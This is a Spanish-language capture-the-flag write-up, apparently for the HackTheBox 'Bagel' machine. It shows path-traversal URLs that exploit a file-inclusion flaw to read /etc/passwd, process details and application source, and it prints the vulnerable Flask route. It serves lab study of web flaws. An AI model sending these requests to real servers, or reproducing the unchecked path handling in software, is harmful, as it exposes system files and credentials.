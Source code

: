 # Análisis de página web (puerto 8000):

- De primeras, al entrar nos redirecciona al dominio `"bagel.htb"` el cual lo tendremos que añadir al `"/etc/hosts"`

- Al acceder a la web, no vemos nada interesante, sin embargo si revisamos el link podemos ver un posible `LFI` ya que se está llamando un parámetro "page".

```
http://bagel.htb:8000/?page=../../../../../../../etc/passwd
```

- Nos da la opción de descarga el archivo "passwd" lo que confirma el LFI, descargamos el archivo y enumeramos los usuarios del sistema:

```bash
$cat passwd | grep "sh"
```

```
phil
developer
```

- Al no encontrar nada interesante con una búsqueda típica de LFI, comenzamos a enumerar recursos más complejos, como listar los `procesos`:

```
http://bagel.htb:8000/?page=../../../../../../../proc/self/cmdline
```

- Descargamos el archivo `"cmdline"` y vemos el contenido:

```bash
$cat cmdline
```

```bash
python3/home/developer/app/app.py
```

- Intentamos acceder a este supuesto archivo que se está ejecutando como proceso dentro del sistema:

```
http://bagel.htb:8000/?page=../../../../../../../home/developer/app/app.py
```

- Descargamos y analizamos el código del archivo:

```python
from flask import Flask, request, send_file, redirect, Response
import os.path
import websocket,json

app = Flask(__name__)

@app.route('/')
def index():
        if 'page' in request.args:
            page = 'static/'+request.args.get('page')
            if os.path.isfile(page):
                resp=send_file(page)
                resp.direct_passthrough = False
                if os.path.getsize(page) == 0:
                    resp.headers["Content-Length"]=str(len(resp.get_data()))
                return resp
            else:
                return "File not found"
        else:
                return redirect('http://bagel.htb:8000/?page=index.html', code=302)

```